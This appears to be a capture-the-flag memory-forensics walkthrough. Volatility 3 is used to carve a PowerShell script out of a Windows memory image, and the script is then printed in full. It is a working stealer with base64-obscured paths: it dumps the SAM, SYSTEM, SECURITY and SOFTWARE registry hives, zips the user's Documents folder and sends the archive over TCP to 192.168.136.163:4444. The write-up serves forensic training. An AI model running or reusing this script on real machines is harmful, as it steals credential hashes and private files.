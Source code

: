 ```
➜  /home/kakarot/RamadhanCTF/foren/memory_loss  python3 /home/kakarot/volatility3/vol.py -f mem.raw windows.filescan > filescan.txt     
➜  /home/kakarot/RamadhanCTF/foren/memory_loss  cat filescan.txt | grep 'K54GHZ.ps1'
0xd88635174090	\Users\kakarot\Documents\K54GHZ.ps1 
➜  /home/kakarot/RamadhanCTF/foren/memory_loss  python3 /home/kakarot/volatility3/vol.py -f mem.raw windows.dumpfiles --virtaddr 0xd88635174090
Volatility 3 Framework 2.25.0
Progress:  100.00		PDB scanning finished                        
Cache	FileObject	FileName	Result

DataSectionObject	0xd88635174090	K54GHZ.ps1	file.0xd88635174090.0xd886327f4d60.DataSectionObject.K54GHZ.ps1.dat
➜  /home/kakarot/RamadhanCTF/foren/memory_loss  mv file.0xd88635174090.0xd886327f4d60.DataSectionObject.K54GHZ.ps1.dat K54GHZ.ps1
➜  /home/kakarot/RamadhanCTF/foren/memory_loss  cat K54GHZ.ps1                      
$A=[Convert]::FromBase64String("SEtMTVxTQU0=")
$B=[Convert]::FromBase64String("QzpcVXNlcnNca2FrYXJvdFxEb2N1bWVudHNcU0FN")
$C=[System.Text.Encoding]::UTF8.GetString($A);$D=[System.Text.Encoding]::UTF8.GetString($B)
reg save $C $D /y

$E=[Convert]::FromBase64String("SEtMTVxTWVNURU0=")
$F=[Convert]::FromBase64String("QzpcVXNlcnNca2FrYXJvdFxEb2N1bWVudHNcU1lTVEVN")
$G=[System.Text.Encoding]::UTF8.GetString($E);$H=[System.Text.Encoding]::UTF8.GetString($F)
reg save $G $H /y

$I=[Convert]::FromBase64String("SEtMTVxTRUNVUklUWQ==")
$J=[Convert]::FromBase64String("QzpcVXNlcnNca2FrYXJvdFxEb2N1bWVudHNcU0VDVVJJVFk=")
$K=[System.Text.Encoding]::UTF8.GetString($I);$L=[System.Text.Encoding]::UTF8.GetString($J)
reg save $K $L /y

$M=[Convert]::FromBase64String("SEtMTVxTT0ZUV0FSRQ==")
$N=[Convert]::FromBase64String("QzpcVXNlcnNca2FrYXJvdFxEb2N1bWVudHNcU09GVFdBUkU=")
$O=[System.Text.Encoding]::UTF8.GetString($M);$P=[System.Text.Encoding]::UTF8.GetString($N)
reg save $O $P /y

$Q=[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("QzpcVXNlcnNca2FrYXJvdFxEb2N1bWVudHNcKg=="))
$R=[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("QzpcVXNlcnNca2FrYXJvdFxEb2N1bWVudHNcYXo0NTZkLnppcA=="))
Compress-Archive -Path $Q -DestinationPath $R -Force

$S=[System.IO.File]::OpenRead($R)
$T=New-Object System.Net.Sockets.TcpClient
$U="192.168.136.163";$V=4444
$T.Connect($U,$V)
$W=$T.GetStream()
$S.CopyTo($W)
$W.Close()
$T.Close()
$S.Close()
```
